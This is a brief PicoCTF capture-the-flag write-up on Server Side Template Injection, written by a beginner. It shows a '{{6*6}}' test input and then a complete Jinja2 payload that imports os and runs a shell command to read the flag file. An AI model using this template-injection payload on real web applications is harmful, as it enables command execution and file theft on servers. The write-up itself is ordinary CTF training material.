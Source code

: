 # PicoCTF - SSTI Writeup
## Objective
Find and exploit Server Side Template Injection to get flaf
## Steps
- click link to open website
- enter "{{6*6}}"
- notice how output is '36'
- that means vulnerability exists
- now enter '{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
'
- output will be the flag

Nobody memorizes that whole line; hackers figure it out step-by-step by experimenting. They test if template code works, then explore accessible objects, and slowly build a payload that runs code.

With enough practice, these patterns become easier to recognize!

## Tool Used
- Injections
## Flag
- picoCTF{.......}
## this is my first writeup so ignore if its not that clear

## since this is my first write up, it shall be noted that before this I was already done with 59 easy level CTFs and 3 Medium CTFs so I hope from now on I will write all writeups